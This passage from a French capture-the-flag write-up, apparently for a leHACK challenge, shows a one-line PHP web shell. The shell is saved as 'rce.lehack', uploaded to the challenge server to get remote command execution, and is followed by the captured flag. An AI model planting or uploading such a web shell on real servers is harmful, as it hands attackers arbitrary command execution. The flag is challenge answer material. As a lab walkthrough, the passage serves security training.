 On créé donc un fichier rce.lehack :

```php
<?php
var_dump(shell_exec($_GET["c"]));
?>
```

On upload ces deux fichiers sur le serveur, et on se retrouve avec une joli RCE :

![rce](images/7.png)

## Flag

FLAG{666a1df13b724e2217d1982985cf0fb33da0acbe8c64ee359b2f}